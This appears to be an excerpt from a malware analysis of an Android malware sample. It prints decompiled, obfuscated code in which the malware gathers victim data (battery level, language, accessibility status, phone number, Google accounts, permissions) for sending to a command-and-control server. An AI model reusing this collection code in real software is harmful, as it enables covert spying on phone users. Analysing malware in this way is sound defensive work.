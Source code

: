 ```cs
                jSONObject2 = new JSONObject(s2);
            
```


# Collected data

The malware will collect data from the victim's device such as battery percentage, language used on device, Accessibility Service status, phone number of the used line, Google accounts, and permissions obtained from the device. Then send it to the C2 server.

```cs
 try {  // DM
            jSONObject0.put(jwozx0.a("Y2NmNQ=="), s2);  // DM
            jSONObject0.put(jwozx0.a("YzlmYw=="), jwozx0.a("ZTZjZDMwYTg="));  // null
                                                                              // AD
            jSONObject0.put(jwozx0.a("Y2FmNA=="), i.battary_percentage(context0));  // BL
            jSONObject0.put(jwozx0.a("ZGNlZg=="), jwozx0.a.sharedpref(context1, c0.af));  // TW
            String s3 = jwozx0.a("ZGJmOQ==");  // SA
            String phone_num = i.s(this) ? "Yjk=" : "Yjg=";  // 0
                                                             // 1
            String s5 = jwozx0.a(phone_num);
            jSONObject0.put(s3, s5);
            jSONObject0.put(jwozx0.a("ZGJlOA=="), jwozx0.a.sharedpref(context1, c0.ar));  // SP
            jSONObject0.put(jwozx0.a("ZGJlYg=="), i.u(context0));  // SS
            jSONObject0.put(jwozx0.a("YzRmZA=="), Locale.getDefault().getLanguage());  // LE
            String s6 = jwozx0.a("ZGJlMQ==");  // SY
            String phone_num = i.accessibility_status(context1, ojfiq.class) ? "Yjk=" : "Yjg=";  // 0
                                                                                                // 1
            String s8 = jwozx0.a(phone_num);
            jSONObject0.put(s6, s8);
            jSONObject0.put(jwozx0.a("ZGJmNQ=="), i.default_sms_pkg(this));  // SM
            jSONObject0.put(jwozx0.a("YzFmYw=="), s1);  // ID
            jSONObject0.put(jwozx0.a("YzFlYg=="), jwozx0.a.sharedpref(context1, c0.ae));  // IS
            String s9 = jwozx0.a("YzZlYQ==");  // NR
            String phone_num = context1.checkCallingOrSelfPermission(jwozx0.a.a.p) == 0 ? ((TelephonyManager)context1.getSystemService("phone")).getLine1Number() : "";
            jSONObject0.put(s9, phone_num);
            jSONObject0.put(jwozx0.a("Y2ZmOQ=="), i.google_acc(this));  // GA
            jSONObject0.put(jwozx0.a("ZDhlYg=="), i.check_permission(jwozx0, c0.q[0]));  // PS
            jSONObject0.put(jwozx0.a("ZDhmYg=="), i.check_permission(jwozx0, c0.q[1]));  // PC
            jSONObject0.put(jwozx0.a("ZDhlOA=="), i.check_permission(jwozx0, c0.q[2]));  // PP
            jSONObject0.put(jwozx0.a("ZDhmNw=="), i.check_permission(jwozx0, c0.q[3]));  // PO
        }
        catch(JSONException unused_ex) {
            jwozx0.a.a(s, jwozx0.a("Y2RlYTBlOGJlYzc2NGIwNjg2ODI1YjcwNzYwYzU4ZTRmNWZhYWRjMg=="));  // ERROR JSON CHECK BOT
        }
```
